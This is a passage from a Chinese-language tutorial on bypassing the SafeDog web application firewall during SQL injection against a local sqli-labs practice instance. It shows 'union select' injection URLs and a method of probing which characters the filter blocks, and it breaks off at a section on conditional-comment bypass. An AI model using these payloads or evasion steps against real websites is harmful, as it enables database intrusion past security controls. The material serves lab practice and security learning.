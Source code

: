 测试链接

> http://192.168.186.129/sqli-labs/Less-1/

可以看到拦截页面

![可以看到拦截页面](./../../../images/SQLi%20Bypass/%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E6%8B%A6%E6%88%AA%E9%A1%B5%E9%9D%A2.png)

### 1.1 旧版本的安全狗绕过

### 1.1.1 判断拦截字符

HackBar 注入

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

逐个删除提交的字符，直到不拦截

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union selec
```

在 union 和 select 之间加任意字符，查看是否拦截

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union !@# select
```

> 发现提交 # 时不拦截，但是 # 将 select 注释掉了，因此只提交 union 是不拦截的

综合以上判断，拦截条件为 union 和 select 同时存在

### 1.1.2 条件注释绕过
